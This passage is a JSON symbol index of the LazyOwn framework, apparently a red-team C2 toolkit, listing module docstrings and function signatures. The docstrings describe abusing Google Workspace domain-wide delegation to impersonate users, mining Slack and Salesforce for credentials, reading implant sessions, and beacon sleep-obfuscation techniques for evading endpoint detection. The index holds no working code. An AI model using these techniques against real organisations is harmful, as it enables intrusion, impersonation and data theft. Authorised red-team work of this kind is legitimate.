"signature": "def salesforce_commands()"}, {"kind": "method", "line": 135, "name": "servicenow_commands", "signature": "def servicenow_commands()"}, {"kind": "method", "line": 163, "name": "__init__", "signature": "def __init__(self, config)"}, {"doc": "Generate enumeration commands for all supported SaaS platforms.\n\nReturns:\n    Dict with platform-specific enumeration commands.", "kind": "method", "line": 166, "name": "enumerate_all", "signature": "def enumerate_all(self)"}, {"doc": "Search mailboxes via Exchange Web Services (EWS).\n\nEWS provides SOAP-based mail access and often uses different\nauthentication than Graph API, providing an alternative path\nif Graph access is restricted.\n\nArgs:\n    search_term: Query term for mail search.\n\nReturns:\n    Dict with EWS SOAP payload and search configuration.", "kind": "method", "line": 179, "name": "m365_ews_mail_search", "signature": "def m365_ews_mail_search(self, search_term)"}, {"doc": "Abuse Google Workspace Domain-Wide Delegation (DWD).\n\nService accounts with DWD can impersonate any user in the domain\nwithout their credentials. This is a powerful persistence technique.\n\nReturns:\n    Dict with DWD abuse instructions.", "kind": "method", "line": 228, "name": "google_workspace_domain_wide_delegation", "signature": "def google_workspace_domain_wide_delegation(self)"}, {"doc": "Mine Salesforce reports and dashboards for sensitive data.\n\nSalesforce reports often contain aggregated financial data,\ncustomer lists, and pipeline information valuable for\nbusiness intelligence gathering.\n\nReturns:\n    Dict with SOQL queries and report endpoints.", "kind": "method", "line": 257, "name": "salesforce_report_mining", "signature": "def salesforce_report_mining(self)"}, {"doc": "Mine Slack Enterprise for sensitive conversations and files.\n\nSlack contains credentials in conversations, SSH keys in code\nsnippets, and cloud provider tokens in integrations.\n\nReturns:\n    Dict with Slack API search and data mining techniques.", "kind": "method", "line": 286, "name": "slack_data_mining", "signature": "def slack_data_mining(self)"}, {"doc": "Detect external sharing configurations across SaaS platforms.\n\nExternal sharing to personal email accounts or partner domains\nis a data exfiltration risk and potential pivot point.\n\nReturns:\n    Dict with external sharing detection commands.", "kind": "method", "line": 327, "name": "detect_external_sharing", "signature": "def detect_external_sharing(self)"}, {"kind": "method", "line": 352, "name": "summary", "signature": "def summary(self)"}]}, {"id": "modules/scripts/clean_history.sh.sh", "kind": "module", "label": "clean_history.sh.sh", "language": "sh", "sha256": "9cd2721ab11fefb1", "symbol_count": 0, "symbols": []}, {"doc": "main.py  Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Licencia: GPL v3  Descripción: webscrapper gtofbins  ██╗      █████╗ ███████╗██╗   ██╗ ██████╗ ██╗    ██╗███╗   ██╗ ██║     ██╔══██╗╚══███╔╝╚██╗ ██╔╝██╔═══██╗██║    ██║████╗  ██║ ██║     ███████║  ███╔╝  ╚████╔╝ ██║   ██║██║ █╗ ██║██╔██╗ ██║ ██║     ██╔══██║ ███╔╝    ╚██╔╝  ██║   ██║██║███╗██║██║╚██╗██║ ███████╗██║  ██║███████╗   ██║   ╚██████╔╝╚███╔███╔╝██║ ╚████║ ╚══════╝╚═╝  ╚═╝╚══════╝   ╚═╝    ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═══╝", "id": "modules/search.py", "kind": "module", "label": "search.py", "language": "py", "sha256": "ba16f79a901917b0", "symbol_count": 0, "symbols": []}, {"doc": "Security sanitizers shared across the LazyOwn framework.  This module centralises the defensive code paths the framework relies on so each concern is implemented once, with strict input validation, and consumed from every caller that previously rolled its own logic. The classes here are the single source of truth for:  * Validating untrusted bind addresses before opening a server socket. * Resolving operator-supplied filenames against the sessions directory without enabling traversal. * Sanitising HTTP header values to prevent response-splitting. * Redacting credentials when shell commands are rendered for display or logging. * Converting arbitrary Python values into a JSON-safe shape that can never leak exception details or traceback information.  Each sanitizer is its own small class so the Single Responsibility Principle is satisfied; callers depend on the public method names rather than the internal implementations (Dependency Inversion); new sanitizers can be added without modifying existing ones (Open / Closed); and every tunable is exposed on :class:`SecurityConfig` so the framework keeps the ``payload.json`` single-source-of-truth contract documented in ``CLAUDE.md``.", "id": "modules/security_sanitizers.py", "kind": "module", "label": "security_sanitizers.py", "language": "py", "sha256": "111ef875c1460d31", "symbol_count": 25, "symbols": [{"doc": "Immutable tunables consumed by every sanitizer in this module.\n\nDefaults are conservative; the operator can override any value\nby adding the matching key to ``payload.json``. The dataclass\nis frozen so a sanitizer instance can be shared across threads\nwithout locking. Tightening a value never breaks an existing\ncaller because every helper exposes the resulting behaviour as\na sentinel rather than as an exception.", "kind": "class", "line": 37, "name": "SecurityConfig", "signature": "class SecurityConfig"}, {"doc": "Validate HTTP header names and values before transmission.\n\nHeaders crossing a proxy boundary may carry CR, LF or NUL\nbytes that, if forwarded verbatim, allow an upstream to inject\nextra headers or a response body. The sanitizer strips those\nbytes and then enforces an allowlist regex; values failing\nthe allowlist are replaced by an opaque sentinel rather than\nsilently coerced to the empty string so the operator can spot\nabnormal upstream behaviour in proxy logs.", "kind": "class", "line": 101, "name": "HeaderValueSanitizer", "signature": "class HeaderValueSanitizer"}, {"doc": "Resolve untrusted filenames against a fixed base directory.\n\nEvery resolver is bound to one base directory whose realpath\nis computed at construction; subsequent ``resolve`` calls join\nthe validated relative path with that base and reject anything\nthat would escape it after symlink resolution. Because the\nvalidation logic is centralised here, CodeQL data-flow analysis\nconsistently recognises the sanitisation and the same guarantees\napply to every caller that routes through this class.", "kind": "class", "line": 162, "name": "SessionPathResolver", "signature": "class SessionPathResolver"}, {"doc": "Pick the address a server socket should bind to.\n\nThe resolver fails closed: when the operator has not chosen an\naddress, it falls back to the configured loopback rather than\nthe unspecified ``0.0.0.0`` address. The unspecified address is\nreturned only when ``allow_unspecified_bind`` is ``True`` in\n:class:`SecurityConfig`, which gives the operator an explicit,\nauditable opt-in for exposing the C2 on every interface.", "kind": "class", "line": 256, "name": "BindAddressResolver", "signature": "class BindAddressResolver"}, {"doc": "Render shell commands without leaking the supplied credentials.\n\nThe redactor produces two strings from a single template: an\nexecutable form, where the real credentials are substituted in\nplace, and a display form, where every credential placeholder\nand every byte-for-byte occurrence of the credentials is\nreplaced by an opaque sentinel. Callers must use the executable\nform for ``subprocess`` calls and the display form for printing\nor logging.", "kind": "class", "line": 318, "name": "CommandRedactor", "signature": "class CommandRedactor"}, {"doc": "Project arbitrary Python values into a JSON-safe shape.\n\nExceptions, traceback objects and any value that fails JSON\nserialisation are replaced by opaque sentinels rather than\ntheir ``str`` representation, which prevents stack traces,\ninternal file paths and instance attributes from reaching the\nHTTP client. Recursion is bounded by the configured maximum\ndepth and the breadth of every collection is capped so a\nhostile callee cannot exhaust the responder's stack or memory.", "kind": "class", "line": 406, "name": "OutputSanitizer", "signature": "class OutputSanitizer"}, {"doc": "Return a :class:`SecurityConfig` populated from ``payload``.\n\nConvenience entry point so callers do not need to import the\ndataclass directly. ``payload`` is typically the result of\n``utils.load_payload``; when ``None``, the conservative\ndefaults are returned.", "kind": "function", "line": 477, "name": "build_default_config", "signature": "def build_default_config(payload)"}, {"doc": "Build a configuration object from a ``payload.json`` mapping.\n\nUnknown keys are ignored so adding a new tunable in code\ndoes not require an immediate ``payload.json`` migration.\nType-mismatched values are dropped silently because the\npayload file is hand-edited by operators and the framework\nmust remain operational even with a partially valid file.\n\nArgs:\n    payload: A mapping produced by ``json.load`` over\n        ``payload.json`` (or any equivalent dictionary).\n\nReturns:\n    A new, frozen :class:`SecurityConfig` populated from\n    the supplied mapping.", "kind": "method", "line": 68, "name": "from_payload", "signature": "def from_payload(cls, payload)"}, {"doc": "Bind the sanitizer to a configuration instance.\n\nArgs:\n    config: The :class:`SecurityConfig` from which the\n        regex patterns, length limit and sentinel string\n        are read at validation time.", "kind": "method", "line": 115, "name": "__init__", "signature": "def __init__(self, config)"}, {"doc": "Return True iff ``name`` is a syntactically valid header token.\n\nThe check follows RFC 7230 ``token`` grammar via the\nallowlist regex in :class:`SecurityConfig`.", "kind": "method", "line": 129, "name": "is_valid_name", "signature": "def is_valid_name(self, name)"}, {"doc": "Return a header value that cannot smuggle a response split.\n\nThe output is guaranteed to consist solely of printable\nASCII plus the horizontal-tab character, with no CR, LF\nor NUL bytes, and to be no longer than the configured\n``max_header_value_length``. Inputs that are not strings,\nthat become empty after stripping forbidden bytes, or that\nfail the allowlist are replaced by the configured sentinel.", "kind": "method", "line": 139, "name": "sanitize_value", "signature": "def sanitize_value(self, value)"}, {"doc": "Bind the resolver to an absolute, real base directory.\n\nArgs:\n    base_dir: The directory that all resolved paths must\n        stay within after symlink resolution.\n    config: The :class:`SecurityConfig` providing the\n        allowlist regex and depth limits.", "kind": "method", "line": 174, "name": "__init__", "signature": "def __init__(self, base_dir, config)"}, {"doc": "The resolved, absolute base directory.", "kind": "method", "line": 192, "name": "base_dir", "signature": "def base_dir(self)"}, {"doc": "Return ``(absolute, relative)`` for a safe filename.\n\n``relative`` is suitable for ``send_from_directory`` while\n``absolute`` is the realpath after joining and may be used\nfor ``os.path.isfile`` style checks. Returns ``None`` when\nany structural, textual or filesystem check fails so the\ncaller has a single branch to handle every error.", "kind": "method", "line": 196, "name": "resolve", "signature": "def resolve(self, untrusted_name)"}, {"doc": "Return True iff ``untrusted_name`` resolves to an existing file.\n\nThe method swallows :class:`OSError` so the caller never\nobserves filesystem-level errors during an availability\nprobe; missing, denied or unreadable entries all surface\nas ``False``.", "kind": "method", "line": 238, "name": "file_exists", "signature": "def file_exists(self, untrusted_name)"}, {"doc": "Build a resolver with a prioritised list of candidate addresses.\n\nArgs:\n    config: The :class:`SecurityConfig` providing the\n        loopback fallback, the unspecified address literal\n        and the opt-in flag.\n    preferred_addresses: Operator-controlled address\n        candidates evaluated in order. The first value that\n        parses as a valid IPv4 or IPv6 literal wins.", "kind": "method", "line": 269, "name": "__init__", "signature": "def __init__(self, config, preferred_addresses)"}, {"doc": "Return True iff ``candidate`` is a parseable IP literal.", "kind": "method", "line": 285, "name": "_is_well_formed", "signature": "def _is_well_formed(self, candidate)"}, {"doc": "Return the address sockets should bind to.\n\nResolution order:\n\n1. The first operator-preferred address that parses.\n2. The unspecified address when ``allow_unspecified_bind``\n   is explicitly enabled by the operator.\n3. The loopback fallback from :class:`SecurityConfig`.", "kind": "method", "line": 298, "name": "resolve", "signature": "def resolve(self)"}, {"doc": "Bind the redactor to a configuration instance.\n\nArgs:\n    config: The :class:`SecurityConfig` providing the\n        redaction sentinels and the placeholder-username\n        marker.", "kind": "method", "line": 333, "name": "__init__", "signature": "def __init__(self, config)"}, {"doc": "Return the username representation safe to print.", "kind": "method", "line": 345, "name": "_display_username", "signature": "def _display_username(self, username)"}, {"doc": "Return the password representation safe to print.", "kind": "method", "line": 353, "name": "_display_password", "signature": "def _display_password(self, password)"}, {"doc": "Return ``(executable, display)`` for a templated command.\n\n``substitutions`` provides the non-credential replacements\n(host, port, output directory and so on). The method\nguarantees that ``display`` never contains the supplied\n``username`` or ``password`` byte-for-byte unless\n``username`` matches the placeholder marker. The dual\nreturn value avoids any chance of the caller printing the\nexecutable form by accident.", "kind": "method", "line": 359, "name": "render", "signature": "def render(self, template, substitutions, username, password)"}, {"doc": "Bind the sanitizer to a configuration instance.\n\nArgs:\n    config: The :class:`SecurityConfig` providing the\n        placeholders, depth limit and collection cap.", "kind": "method", "line": 418, "name": "__init__", "signature": "def __init__(self, config)"}, {"doc": "Return ``value`` projected into a JSON-serialisable form.", "kind": "method", "line": 429, "name": "sanitize", "signature": "def sanitize(self, value)"}, {"doc": "Recursive worker for :meth:`sanitize`.", "kind": "method", "line": 433, "name": "_sanitize", "signature": "def _sanitize(self, value, depth)"}]}, {"doc": "Guarded self-update for the LazyOwn working tree.  ``check`` fetches the configured branch and reports how far behind the tree is; ``apply`` only fast-forwards when the tree is clean and has no local commits, never runs remote code beyond a merge and never touches the branch without ``--yes``. The loop runs a throttled ``check`` (once a day) and reports an activity line when an update is available.", "id": "modules/selfupdate.py", "kind": "module", "label": "selfupdate.py", "language": "py", "sha256": "dd08235b93ef19bb", "symbol_count": 12, "symbols": [{"doc": "One release candidate: bytes plus their expected digest.\n\nAttributes:\n    data: Raw binary payload.\n    sha256: Expected lowercase hex digest of ``data``.\n    version: Human version label carried into logs.", "kind": "class", "line": 24, "name": "ReleaseArtifact", "signature": "class ReleaseArtifact"}, {"doc": "Verify, stage and roll back a single binary path.\n\nUsed by the guarded self-update path for release artifacts that are\ndownloaded instead of git-merged: a bad checksum never reaches the\nlive file, staging writes beside it first, and rollback restores the\n``<name>.old`` snapshot left by the previous apply.", "kind": "class", "line": 38, "name": "Updater", "signature": "class Updater"}, {"doc": "Run one git command capturing output; injection point for tests.", "kind": "function", "line": 85, "name": "_run", "signature": "def _run(argv, cwd, timeout)"}, {"doc": "Run ``git <args>`` in the repository root.", "kind": "function", "line": 90, "name": "_git", "signature": "def _git(args, runner, cwd, timeout)"}, {"doc": "Return the checked-out branch name (empty on failure).", "kind": "function", "line": 96, "name": "current_branch", "signature": "def current_branch(runner)"}, {"doc": "Return True when the working tree has uncommitted changes.", "kind": "function", "line": 102, "name": "dirty", "signature": "def dirty(runner)"}, {"doc": "Fetch the branch and report ahead/behind counts.\n\nArgs:\n    branch: Branch to compare (defaults to the current branch).\n    runner: Injected git runner.\n\nReturns:\n    Dict with ok, branch, behind, ahead and head hash.", "kind": "function", "line": 108, "name": "check", "signature": "def check(branch, runner)"}, {"doc": "Fast-forward the tree to origin/<branch> when safe.\n\nArgs:\n    branch: Branch to update from.\n    confirm: Must be True; the CLI requires ``--yes``.\n    runner: Injected git runner.\n\nReturns:\n    Dict with applied flag, reason and the check summary.", "kind": "function", "line": 140, "name": "apply", "signature": "def apply(branch, confirm, runner)"}, {"doc": "Bind the updater to the binary that may be replaced.", "kind": "method", "line": 47, "name": "__init__", "signature": "def __init__(self, live_path)"}, {"doc": "Return True when the payload matches its recorded digest.", "kind": "method", "line": 52, "name": "verify", "signature": "def verify(self, artifact)"}, {"doc": "Write a verified payload into ``directory``.\n\nArgs:\n    artifact: Verified release candidate.\n    directory: Destination directory for the staged binary.\n\nReturns:\n    Path of the staged file.\n\nRaises:\n    ValueError: Checksum mismatch; the live binary is untouched.", "kind": "method", "line": 57, "name": "stage", "signature": "def stage(self, artifact, directory)"}, {"doc": "Restore the ``<name>.old`` snapshot over the live binary.", "kind": "method", "line": 77, "name": "rollback", "signature": "def rollback(self)"}]}, {"doc": "Ephemeral infrastructure cleanup on shell exit.  Stops disposable assets (cyber range stacks, redirector tunnels, stray ``cloudflared`` processes) when the operator leaves the shell via Ctrl-D, ``quit``, ``qa`` or ``exit``. Everything here is best-effort and bounded: cleanup must never block or crash the exit path.", "id": "modules/session_cleanup.py", "kind": "module", "label": "session_cleanup.py", "language": "py", "sha256": "46aea8d051757d22", "symbol_count": 5, "symbols": [{"doc": "Extract PIDs of ``cloudflared tunnel`` processes from ps output.\n\nArgs:\n    ps_output: Raw stdout of ``ps -eo pid,args``.\n\nReturns:\n    Matching PIDs excluding the current process.", "kind": "function", "line": 28, "name": "find_cloudflared_pids", "signature": "def find_cloudflared_pids(ps_output)"}, {"doc": "Run a teardown command, swallowing all failures.\n\nArgs:\n    argv: Argument vector, never a shell string.\n    timeout: Seconds before aborting.\n\nReturns:\n    True when the command exits zero.", "kind": "function", "line": 49, "name": "_run_quiet", "signature": "def _run_quiet(argv, timeout)"}, {"doc": "Stop one compose stack when its containers exist.\n\nArgs:\n    compose_file: Compose file governing the stack.\n    label: Human label for status output.\n\nReturns:\n    True when the stack was stopped or nothing was running.", "kind": "function", "line": 66, "name": "_compose_down", "signature": "def _compose_down(compose_file, label)"}, {"doc": "Terminate stray ``cloudflared tunnel`` host processes.\n\nReturns:\n    Number of processes signalled.", "kind": "function", "line": 94, "name": "stop_cloudflared_processes", "signature": "def stop_cloudflared_processes()"}, {"doc": "Stop all disposable infrastructure owned by this checkout.\n\nShuts down every range profile stack, the redirector stack, and stray\n``cloudflared`` host processes. Safe to call when Docker is absent.\n\nReturns:\n    Dict of teardown step name to success flag.", "kind": "function", "line": 120, "name": "cleanup_ephemeral_infra", "signature": "def cleanup_ephemeral_infra()"}]}, {"doc": "session_rag.py — ChromaDB-backed RAG over sessions/ artefacts.  Incrementally indexes every text artefact in sessions/: *.log, *.txt, *.csv, *.xml, *.json, *.nmap, *.md  State tracked in sessions/rag_state.json (mtime per file) so only new or changed files are re-indexed on each call.  ChromaDB is optional — if not installed the module degrades gracefully to keyword search (Python in-memory fallback).  Install: pip install chromadb  Public API ---------- get_rag() -> SessionRAG          singleton SessionRAG.index_new()           incremental re-index (fast, cron-safe) SessionRAG.index_all()           full re-index from scratch SessionRAG.query(text, n)        semantic / keyword search SessionRAG.context_for_step(phase, target, n)  -> str for prompt injection SessionRAG.stats()               -> dict", "id": "modules/session_rag.py", "kind": "module", "label": "session_rag.py", "language": "py", "sha256": "c07770bfbb5eed32", "symbol_count": 24, "symbols": [{"kind": "function", "line": 88, "name": "_chunk_text", "signature": "def _chunk_text(text, size, overlap)"}, {"doc": "Keyword search fallback when chromadb is not installed.\n\nPersists to FALLBACK_INDEX_FILE so the index survives process restarts.\nUses a ring-buffer (MAX_FALLBACK_DOCS) to cap disk usage.", "kind": "class", "line": 103, "name": "_KeywordFallback", "signature": "class _KeywordFallback"}, {"kind": "class", "line": 168, "name": "_RagState", "signature": "class _RagState"}, {"doc": "Semantic search over sessions/ artefacts using ChromaDB or keyword fallback.", "kind": "class", "line": 188, "name": "SessionRAG", "signature": "class SessionRAG"}, {"kind": "function", "line": 535, "name": "get_rag", "signature": "def get_rag()"}, {"kind": "method", "line": 111, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "Load index from disk (no-op if file absent or corrupt).", "kind": "method", "line": 115, "name": "load", "signature": "def load(self, path)"}, {"doc": "Atomically persist index to disk.", "kind": "method", "line": 126, "name": "save", "signature": "def save(self, path)"}, {"kind": "method", "line": 136, "name": "add", "signature": "def add(self, doc_id, text, meta)"}, {"kind": "method", "line": 146, "name": "query", "signature": "def query(self, query_text, n)"}, {"kind": "method", "line": 156, "name": "count", "signature": "def count(self)"}, {"kind": "method", "line": 159, "name": "reset", "signature": "def reset(self)"}, {"kind": "method", "line": 172, "name": "load", "signature": "def load(cls)"}, {"kind": "method", "line": 181, "name": "save", "signature": "def save(self)"}, {"kind": "method", "line": 191, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 202, "name": "_init_backend", "signature": "def _init_backend(self)"}, {"kind": "method", "line": 248, "name": "_iter_artefacts", "signature": "def _iter_artefacts(self)"}, {"doc": "Index a single file; return number of chunks added.", "kind": "method", "line": 265, "name": "_index_file", "signature": "def _index_file(self, path, collection_key)"}, {"doc": "Incrementally index only new or changed files.", "kind": "method", "line": 301, "name": "index_new", "signature": "def index_new(self)"}, {"doc": "Index knowledge-base parquets (techniques_enriched, binarios, lolbas_index)\ninto the RAG store.\n\nEach row is indexed as:  \"<name>. <description_preview>  CMD: <command_preview>\"\nso queries like \"bypass amsi windows\" or \"suid privilege escalation\" resolve\nto real Atomic Red Team commands and GTFOBins entries.\n\nState is tracked in rag_state.json under the key \"parquets/<stem>\".", "kind": "method", "line": 322, "name": "index_parquet_sources", "signature": "def index_parquet_sources(self, force)"}, {"doc": "Full re-index from scratch.", "kind": "method", "line": 411, "name": "index_all", "signature": "def index_all(self)"}, {"doc": "Return top-n relevant chunks as dicts with keys: text, source, chunk, score.", "kind": "method", "line": 439, "name": "query", "signature": "def query(self, query_text, n, collection)"}, {"doc": "Return a compact RAG context string suitable for injection into an LLM prompt.\nQueries with phase + target + command to retrieve the most relevant session artefacts.", "kind": "method", "line": 489, "name": "context_for_step", "signature": "def context_for_step(self, phase, target, cmd, n)"}, {"kind": "method", "line": 509, "name": "stats", "signature": "def stats(self)"}]}, {"doc": "modules/session_reader.py ========================== Reads LazyOwn C2 session artefacts: - sessions/{client_id}.log  (implant CSV: os, pid, hostname, ips, user, discovered_ips, result_portscan, result_pwd, command, output) - sessions/logs/c2/         (per-command output text files) - sessions/implant_config_*.json - sessions/hostsdiscovery.txt - sessions/tasks.json       (campaign task board)  Design (SOLID) -------------- - Single Responsibility : each Reader reads exactly one artefact type. - Open/Closed           : new artefact types via new Reader subclass. - Liskov                : all Reader subclasses honour the read() contract. - Interface Segregation : SessionAggregator exposes only what callers need. - Dependency Inversion  : SessionAggregator depends on AbstractReader.", "id": "modules/session_reader.py", "kind": "module", "label": "session_reader.py", "language": "py", "sha256": "c1f1abf198f5b526", "symbol_count": 29, "symbols": [{"doc": "One row from sessions/{client_id}.log.", "kind": "class", "line": 39, "name": "ImplantRecord", "signature": "class ImplantRecord"}, {"doc": "One task from sessions/tasks.json.", "kind": "class", "line": 74, "name": "CampaignTask", "signature": "class CampaignTask"}, {"doc": "Aggregated view of all active sessions.", "kind": "class", "line": 85, "name": "SessionSummary", "signature": "class SessionSummary"}, {"kind": "class", "line": 127, "name": "AbstractReader", "signature": "class AbstractReader(ABC)"}, {"doc": "Reads all sessions/{client_id}.log CSV files.\nReturns List[ImplantRecord] with all rows from all implants.", "kind": "class", "line": 137, "name": "ImplantCSVReader", "signature": "class ImplantCSVReader(AbstractReader)"}, {"doc": "Reads sessions/logs/c2/command_*output*.txt files.\nReturns Dict[str, str]: {filename_stem -> content}", "kind": "class", "line": 193, "name": "CommandOutputReader", "signature": "class CommandOutputReader(AbstractReader)"}, {"doc": "Reads sessions/hostsdiscovery.txt.", "kind": "class", "line": 214, "name": "DiscoveredHostReader", "signature": "class DiscoveredHostReader(AbstractReader)"}, {"doc": "Reads sessions/tasks.json.", "kind": "class", "line": 232, "name": "TaskReader", "signature": "class TaskReader(AbstractReader)"}, {"doc": "Appends or updates tasks in sessions/tasks.json.", "kind": "class", "line": 257, "name": "TaskWriter", "signature": "class TaskWriter"}, {"doc": "Combines all readers into a single SessionSummary.\nDependency-injected readers allow substitution in tests.", "kind": "class", "line": 313, "name": "SessionAggregator", "signature": "class SessionAggregator"}, {"kind": "function", "line": 347, "name": "get_aggregator", "signature": "def get_aggregator()"}, {"kind": "method", "line": 55, "name": "is_privileged", "signature": "def is_privileged(self)"}, {"kind": "method", "line": 60, "name": "platform", "signature": "def platform(self)"}, {"kind": "method", "line": 69, "name": "ip_list", "signature": "def ip_list(self)"}, {"kind": "method", "line": 94, "name": "active_client_ids", "signature": "def active_client_ids(self)"}, {"kind": "method", "line": 101, "name": "privileged_sessions", "signature": "def privileged_sessions(self)"}, {"kind": "method", "line": 108, "name": "unprivileged_sessions", "signature": "def unprivileged_sessions(self)"}, {"kind": "method", "line": 114, "name": "latest_for", "signature": "def latest_for(self, client_id)"}, {"kind": "method", "line": 118, "name": "task_by_status", "signature": "def task_by_status(self, status)"}, {"kind": "method", "line": 129, "name": "read", "signature": "def read(self, sessions_dir)"}, {"kind": "method", "line": 157, "name": "read", "signature": "def read(self, sessions_dir)"}, {"kind": "method", "line": 199, "name": "read", "signature": "def read(self, sessions_dir)"}, {"kind": "method", "line": 217, "name": "read", "signature": "def read(self, sessions_dir)"}, {"kind": "method", "line": 235, "name": "read", "signature": "def read(self, sessions_dir)"}, {"kind": "method", "line": 260, "name": "__init__", "signature": "def __init__(self, sessions_dir)"}, {"kind": "method", "line": 263, "name": "append", "signature": "def append(self, title, description, operator, status)"}, {"kind": "method", "line": 288, "name": "update_status", "signature": "def update_status(self, task_id, status)"}, {"kind": "method", "line": 319, "name": "__init__", "signature": "def __init__(self, implant_reader, output_reader, host_reader, task_reader)"}, {"kind": "method", "line": 331, "name": "aggregate", "signature": "def aggregate(self, sessions_dir)"}]}, {"doc": "LazyOwn Session State ===================== Aggregates live session data from multiple sources into a single sessions/session_state.json snapshot consumed by the recommender, timeline narrator, and MCP tools.  Sources: - payload.json          → active target, lhost, config - sessions/events.jsonl → rule-matched events (findings) - sessions/LazyOwn_session_report.csv → last N commands executed  Public API: build_state()  → dict   build and return state (does NOT write to disk) refresh()      → dict   build + write sessions/session_state.json load()         → dict   read the last written state (or build if missing)", "id": "modules/session_state.py", "kind": "module", "label": "session_state.py", "language": "py", "sha256": "09d058e0ae3b5e24", "symbol_count": 9, "symbols": [{"kind": "function", "line": 50, "name": "_detect_phase", "signature": "def _detect_phase(event_types)"}, {"kind": "function", "line": 75, "name": "_read_last_commands", "signature": "def _read_last_commands(n)"}, {"kind": "function", "line": 93, "name": "_read_events", "signature": "def _read_events(n)"}, {"kind": "function", "line": 118, "name": "_extract_creds_from_events", "signature": "def _extract_creds_from_events(events)"}, {"doc": "Build {ip: {ports: [...], domain: str}} from CSV rows + payload.", "kind": "function", "line": 133, "name": "_extract_hosts", "signature": "def _extract_hosts(rows, payload)"}, {"kind": "function", "line": 175, "name": "_summarise_commands", "signature": "def _summarise_commands(rows)"}, {"doc": "Assemble and return the current session state dict.", "kind": "function", "line": 189, "name": "build_state", "signature": "def build_state()"}, {"doc": "Build state and persist to sessions/session_state.json.", "kind": "function", "line": 240, "name": "refresh", "signature": "def refresh()"}, {"doc": "Return the last written state, or build it fresh if stale/missing.", "kind": "function", "line": 251, "name": "load", "signature": "def load()"}]}, {"doc": "Isolated side-question answering against immutable snapshots.  Ports the LAZY sidequestion contract. Operators ask follow-up questions without mutating the main agent loop. Answers derive from a captured snapshot plus recent successful exchanges under token and concurrency budgets.", "id": "modules/sidequestion.py", "kind": "module", "label": "sidequestion.py", "language": "py", "sha256": "77c9ea387f436744", "symbol_count": 9, "symbols": [{"doc": "Centralized constants for side-question behavior.", "kind": "class", "line": 19, "name": "SideConfig", "signature": "class SideConfig"}, {"doc": "Immutable context captured from the main agent.", "kind": "class", "line": 32, "name": "Snapshot", "signature": "class Snapshot"}, {"doc": "Single isolated question with accumulated answer.", "kind": "class", "line": 42, "name": "SideQuestion", "signature": "class SideQuestion"}, {"doc": "Bounded service for snapshot-scoped questions.", "kind": "class", "line": 52, "name": "SideQuestionService", "signature": "class SideQuestionService"}, {"doc": "Initialize registries with an optional answer function.", "kind": "method", "line": 55, "name": "__init__", "signature": "def __init__(self, answer_fn, config)"}, {"doc": "Freeze main-loop context into an immutable snapshot.", "kind": "method", "line": 66, "name": "capture", "signature": "def capture(self, task_id, text)"}, {"doc": "Answer from a snapshot without touching main state.", "kind": "method", "line": 75, "name": "ask", "signature": "def ask(self, snapshot_id, question)"}, {"doc": "Mark a pending request cancelled.", "kind": "method", "line": 104, "name": "cancel", "signature": "def cancel(self, request_id)"}, {"doc": "Page request history newest first.", "kind": "method", "line": 113, "name": "history", "signature": "def history(self, limit, before)"}]}, {"doc": "Sleep obfuscation engine for beacon memory evasion.  Defines a catalog of sleep obfuscation techniques with configurable parameters. Provides the ``SleepObfuscationEngine`` which selects and validates techniques based on platform compatibility and operational parameters.  Techniques catalogued: - Sleep Mask (RW -> RX/RW cycle via VirtualProtect/mprotect) - Ekko-style threadless sleep (timer queue + ROP gadgets) - Stack Spoofing (call stack overwrite before sleep) - Module Stomping (overwrite loaded module .text section) - APC Injection Chain (queued APC during sleep) - Hardware Breakpoint (VEH + HWBP on sleep/resume) - Fiber-based sleep (convert thread to fiber, swap, convert back) - Thread Pool (queue work item to pool thread before sleep)  Each technique is defined with its platform support, minimum beacon version, detection resistance score, and configurable parameters.  Contracts: - SleepTechnique: immutable dataclass for a technique definition - SleepTechniqueCatalog: curated catalog of known techniques - SleepObfuscationConfig: runtime configuration for the active technique - SleepObfuscationEngine: selects, validates, and configures techniques - SleepTechniqueValidator: validates config against technique constraints  Design (SOLID): - Single Responsibility: catalog, config, engine, validator are separate - Open/Closed: new techniques added via catalog registration", "id": "modules/sleep_obfuscation.py", "kind": "module", "label": "sleep_obfuscation.py", "language": "py", "sha256": "a8dec8b9bfdb6570", "symbol_count": 28, "symbols": [{"doc": "Operating system platform.", "kind": "class", "line": 57, "name": "OsPlatform", "signature": "class OsPlatform(str, Enum)"}, {"doc": "Risk classification for a sleep obfuscation technique.", "kind": "class", "line": 64, "name": "TechniqueRisk", "signature": "class TechniqueRisk(str, Enum)"}, {"doc": "Definition of a single sleep obfuscation technique.\n\nAttributes:\n    name: Unique technique identifier.\n    description: Human-readable description.\n    platforms: Supported OS platforms.\n    detection_resistance: Score 0-100 indicating EDR evasion strength.\n    risk: Operational risk level (low/medium/high).\n    min_beacon_version: Minimum beacon engine version required.\n    params: Parameter schema as dict of name -> (type, default, description).\n    requires_rop_gadgets: Whether the technique needs ROP gadget scanning.\n    stability_note: Operator-visible note about known issues.", "kind": "class", "line": 73, "name": "SleepTechnique", "signature": "class SleepTechnique"}, {"doc": "Runtime configuration for the active sleep obfuscation technique.\n\nAttributes:\n    technique_name: Name of the selected technique.\n    enabled: Whether sleep obfuscation is active.\n    encrypt_heap: Encrypt beacon heap memory during sleep.\n    encrypt_stack: Encrypt thread stack during sleep.\n    encrypt_peb: Hide/Patch Process Environment Block.\n    rwx_to_rw_cycle: Temporarily change memory protections.\n    indirect_syscalls: Use indirect syscalls for protection changes.\n    module_stomp_target: DLL name for module stomping (if applicable).\n    rop_gadget_count: Number of ROP gadgets to use (Ekko-style).\n    sleep_delay_ms: Artificial delay in ms to pace operations.\n    custom_params: Free-form dict for technique-specific parameters.", "kind": "class", "line": 100, "name": "SleepObfuscationConfig", "signature": "class SleepObfuscationConfig"}, {"doc": "Curated catalog of sleep obfuscation techniques.\n\nNew techniques are registered via ``register()``. The catalog\nis immutable at runtime after initial population.", "kind": "class", "line": 163, "name": "SleepTechniqueCatalog", "signature": "class SleepTechniqueCatalog"}, {"doc": "Build the default curated sleep obfuscation catalog.", "kind": "function", "line": 201, "name": "_build_default_catalog", "signature": "def _build_default_catalog()"}, {"doc": "Validates a SleepObfuscationConfig against technique constraints.", "kind": "class", "line": 365, "name": "SleepTechniqueValidator", "signature": "class SleepTechniqueValidator"}, {"doc": "Engine for selecting, configuring, and validating sleep obfuscation.\n\nComposes a technique catalog, a validator, and runtime configuration.\nProvides the primary interface for beacon compile-time and 